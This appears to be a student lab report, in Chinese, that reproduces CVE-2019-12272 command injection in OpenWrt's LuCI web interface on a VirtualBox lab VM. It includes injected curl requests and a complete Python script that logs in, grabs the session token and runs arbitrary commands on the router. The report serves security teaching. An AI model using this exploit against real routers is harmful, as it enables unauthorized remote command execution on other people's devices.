









# 实验目的

+ 复现 CVE-2019-1227漏洞，实现自动化的攻击脚本工具，初步了解移动通信安全。

# 实验环境

+ `VirtualBox`
+ `OPenWrt15.05.1`

# 实验过程

## 安装`OpenWrt15.05.1`

+ 使用[第一章的脚本](./setup-vm.sh)进行自动安装，需修改下载镜像的链接和变量VER值即可即可。

  ```bash
  #!/usr/bin/env bash
  
  #VER="19.07.5" # openwrt version
  VER="15.05.1"
  VDI_BASE="openwrt-x86-64-combined-squashfs.vdi"
  
  shasum -c img.sha256.sum  
    #kate:
    # -c  从文件中读取SHA1 的校验值并予以检查
    # -q  don't print OK for each successfully verified file （kali里有该参数，ubuntu16.4里无改参数）
    # 在ubuntu里，如果加上-q，则每次该命令会执行出错，从而无论本地是否已经下载过下面的镜像，都会重新下载。
    # 标准输出重定向到 /dev/null , 2表示标准错误输出，重定向到 &1 ，1表示标准输出。即：标准错误输出也重定向到 /dev/null
  if [[ $? -ne 0 ]];then
    # kate:
    # $? 最后运行的命令执行代码的返回值。即shasum的返回值。 
    # -ne ： 不等于
    # shasum执行成功返回0
  
    # 下载固件
    wget "https://archive.openwrt.org/chaos_calmer/15.05.1/x86/64/openwrt-15.05.1-x86-64-combined-ext4.img.gz" -O openwrt-x86-64-combined-squashfs.img.gz
  
    # wget https://downloads.openwrt.org/releases/$VER/targets/x86/64/openwrt-$VER-x86-64-combined-squashfs.img.gz -O openwrt-x86-64-combined-squashfs.img.gz
    # kate:
    # wget : 非交互式的网络文件下载工具
    # -O : 将文档写入 FILE/重命名
    # 若官方网站链接发生变化，可以在google搜索文件名。
  
    # 解压缩
    gzip -d openwrt-x86-64-combined-squashfs.img.gz
    # gzip -d openwrt-x86-64-combined-squashfs.img.gz
    # kate:
    # gzip : Compress or uncompress FILEs
  fi
  
  shasum -c vdi.sha256.sum
  if [[ $? -ne 0 ]];then
    # img 格式转换为 Virtualbox 虚拟硬盘格式 vdi
    VBoxManage convertfromraw --format VDI openwrt-x86-64-combined-squashfs.img "$VDI_BASE"
    # 新建虚拟机选择「类型」 Linux / 「版本」Linux 2.6 / 3.x / 4.x (64-bit)，填写有意义的虚拟机「名称」
    # 内存设置为 256 MB
    # 使用已有的虚拟硬盘文件 - 「注册」新虚拟硬盘文件选择刚才转换生成的 .vdi 文件
  
  
    if [[ $? -eq 1 ]];then
      # 上述代码执行失败，则执行下述代码：将源img镜像拷贝一份，并给其一个新的名字。
      # ref: https://openwrt.org/docs/guide-user/virtualization/virtualbox-vm#convert_openwrtimg_to_vbox_drive
      dd if=openwrt-x86-64-combined-squashfs.img of=openwrt-x86-64-combined-squashfs-padded.img bs=128000 conv=sync
      # dd ：用指定大小的块拷贝一个文件，并在拷贝的同时进行指定的转换
      # if=文件名：输入文件名
      # of=文件名：输出文件名
      # bs=bytes：同时设置读入/输出的块大小为bytes个字节。
      # conv=conversion：用指定的参数转换文件。
      # sync：将每个输入块填充到ibs个字节，不足部分用空（NUL）字符补齐。
  
      VBoxManage convertfromraw --format VDI openwrt-x86-64-combined-squashfs-padded.img "$VDI_BASE"
       # This command converts a raw disk image to an Oracle VM VirtualBox Disk Image (VDI) file.
    fi
  fi
  
  # 创建虚拟机
  VM="openwrt-demo"
  # VBoxManage list ostypes
  if [[ $(VBoxManage list vms | cut -d ' ' -f 1 | grep -w "\"$VM\"" -c) -eq 0 ]];then
      # kate :
      # VBoxManage list vms : 列出所有的虚拟机
  
      # cut : Print selected parts of lines from each FILE to standard output.
      # -d : 指定分隔符
      # -f : 选取分割后的第一个
  
      # grep : 在每个 FILE 或是标准输入中查找 PATTERN。默认的 PATTERN 是一个基本正则表达式(缩写为 BRE)
      # -w : 强制匹配
      # -c : 只打印匹配的行数
  
      # 本行含义：如果版本为“openwrt-19.07.5”的虚拟机的个数为0，则继续往下执行：
    echo "vm $VM not exsits, create it ..."
    VBoxManage createvm --name $VM --ostype "Linux26_64" --register
      # VBoxManage createvm --name $VM --ostype "Linux26_64" --register --groups "/IoT"
      # VBoxManage createvm : 创建并注册一个虚拟机。 
      # --name : 指定虚拟机的名称为：openwrt-19.07.5
      # --ostype : 指定虚拟机的系统类型为：Linux26_64
      
    # 创建一个 SATA 控制器
    VBoxManage storagectl "$VM" --name "SATA" --add sata --controller IntelAHCI
    # 向该控制器安装一个「硬盘」
    ## --medium 指定本地的一个「多重加载」虚拟硬盘文件
    VBoxManage storageattach "$VM" --storagectl "SATA" --port 0 \
      --device 0 --type hdd --medium "$VDI_BASE"
  
    VBoxManage storagectl "$VM" --name "SATA" --remove
  
    # 将目标 vdi 修改为「多重加载」
    VBoxManage modifymedium disk --type multiattach "$VDI_BASE"
    # 虚拟磁盘扩容
    VBoxManage modifymedium disk --resize 10240 "$VDI_BASE"
  
    VBoxManage storagectl "$VM" --name "SATA" --add sata --controller IntelAHCI
    VBoxManage storageattach "$VM" --storagectl "SATA" --port 0 \
      --device 0 --type hdd --medium "$VDI_BASE"
  
    # 启用 USB 3.0 接口
    VBoxManage modifyvm "$VM" --usbxhci on
    # 修改虚拟机配置
    ## --memory 内存设置为 256MB
    ## --vram   显存设置为 16MB
    VBoxManage modifyvm "$VM" --memory 256 --vram 16
  
    # ref: https://docs.oracle.com/en/virtualization/virtualbox/6.1/user/settings-display.html
    # VMSVGA: Use this graphics controller to emulate a VMware SVGA graphics device. This is the default graphics controller for Linux guests.
    VBoxManage modifyvm "$VM" --graphicscontroller vmsvga
  
    # CAUTION: 虚拟机的 WAN 网卡对应的虚拟网络类型必须设置为 NAT 而不能使用 NatNetwork ，无线客户端连入无线网络后才可以正常上网
    ## 检查 NATNetwork 网络是否存在
    # natnetwork_name="NatNetwork"
    # natnetwork_count=$(VBoxManage natnetwork list | grep -c "$natnetwork_name")
    # if [[ $natnetwork_count -eq 0 ]];then
    #   VBoxManage natnetwork add --netname "$natnetwork_name" --network "10.0.2.0/24" --enable --dhcp on
    # fi
  
    ## 添加 Host-Only 网卡为第 1 块虚拟网卡
    ## --hostonlyadapter1 第 1 块网卡的界面名称为 vboxnet0
    ## --nictype1 第 1 块网卡的控制芯片为 Intel PRO/1000 MT 桌面 (82540EM)
    ## --nic2 nat 第 2 块网卡配置为 NAT 模式
    VBoxManage modifyvm "$VM" --nic1 "hostonly" --nictype1 "82540EM" --hostonlyadapter1 "vboxnet0"
    VBoxManage modifyvm "$VM" --nic2 nat 
  fi
  ```

+ 修改`host-only`的`ip`地址：

  

+ 重启网络：`/etc/init.d/network restart`

+ 安装成功：

  ​	

  ​	

## 漏洞复现

### 复现现象1	`ifconfig > cmd.txt	`					

​	



### 复现现象2  `uname -a > cmd.txt`



## 漏洞利用

### 获得脚手架代码

利用浏览器的「Copy as cURL (bash)」功能，得到漏洞复现请求的`curl`代码，再利用第三方工具将其转换为`Python Requests`的代码（例如`https://curl.trillworks.com/`），

```bash
curl 'http://192.168.152.106/cgi-bin/luci/;stok=48d848d22020211400aa0e269323a792/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Mobile Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7' \
  -H 'Cookie: sysauth=67fd865633d6b6aea31579d051b5944f' \
  --compressed \
  --insecure
```



转换后的代码为：

```python
import requests

cookies = {
    'sysauth': '67fd865633d6b6aea31579d051b5944f',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Mobile Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7',
}

response = requests.get('http://192.168.152.106/cgi-bin/luci/;stok=48d848d22020211400aa0e269323a792/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)', headers=headers, cookies=cookies, verify=False)

```

在进行漏洞重放之前，我们需要进行登录，因此，以同样的方式获得登录的requests：

```bash
curl 'http://192.168.152.106/cgi-bin/luci' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://192.168.152.106' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Mobile Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Referer: http://192.168.152.106/cgi-bin/luci' \
  -H 'Accept-Language: en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7' \
  --data-raw 'luci_username=root&luci_password=123' \
  --compressed \
  --insecure
```




转换得到：

```python
import requests

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://192.168.152.106',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Mobile Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://192.168.152.106/cgi-bin/luci',
    'Accept-Language': 'en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7',
}

data = {
  'luci_username': 'root',
  'luci_password': '123'
}

response = requests.post('http://192.168.152.106/cgi-bin/luci', headers=headers, data=data, verify=False)

```

可以看出，上述的登录请求里面包含用户名和密码。

## 自动化攻击工具编写

使用`python`代码模拟登录过程，获得`cookies`和`stok`，进行漏洞利用，代码实现如下：

```python
import requests
from urllib.parse import urlparse
import sys

class CVE_2019_12272:
    def __init__(self, host = '192.168.152.106'):
        self.host = host
        self.stok = ''
        self.cmd = ''
        self.luci_username = 'root'
        self.luci_password = '123'
        self.sysauth = 'f35b7193ca78f5e3549a4e95d719c772'
        self.cookies = ''
        self.headers = {
            'Connection': 'keep-alive',
            'Pragma': 'no-cache',
            'Cache-Control': 'no-cache',
            'Upgrade-Insecure-Requests': '1',
            'Origin': self.host,
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Mobile Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'Referer': 'http://192.168.152.106/cgi-bin/luci',
            'Accept-Language': 'en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7',
        }
        
    def login(self):
        data = {
        'luci_username': self.luci_username,
        'luci_password': self.luci_password
        }
        url = 'http://{host}/cgi-bin/luci'.format(host = self.host)
        response = requests.post(url, headers=self.headers, data=data, verify=False, allow_redirects=False)
        self.cookies = response.cookies
        Location = response.headers['Location']
        self.stok = urlparse(Location).params
        # print(self.stok)

    def shell(self, cmd = 'ifconfig'):
        self.cmd = cmd + '%3ecmd.txt'
        url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0$({cmd})'.format(host = self.host, cmd = self.cmd, stok = self.stok)
        headers = {
            'Connection': 'keep-alive',
            'Pragma': 'no-cache',
            'Cache-Control': 'no-cache',
            'Upgrade-Insecure-Requests': '1',
            'User-Agent': 'Mozilla/5.0 (Linux; Android 6.0; Nexus 5 Build/MRA58N) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Mobile Safari/537.36',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'Accept-Language': 'en,zh-CN;q=0.9,zh;q=0.8,en-US;q=0.7',
        }
        response = requests.get(url, headers=headers, cookies=self.cookies, verify=False)
        # print(response.status_code) # 200

    def view(self):
        url = 'http://{host}/cmd.txt'.format(host = self.host)
        response = requests.get(url, headers=self.headers)
        print(response.text)

if __name__ == '__main__':
    test = CVE_2019_12272()
    test.login()
    test.shell(sys.argv[1])
    test.view()
```

实验结果:



## 实验问题

+ 无

## 参考文献

+ [黄大课本](https://c4pr1c3.gitee.io/cuc-mis/chap0x04/cve-2019-12272.html)
+ [课程录像](https://www.bilibili.com/video/BV1rr4y1A7nz?t=268&p=100)

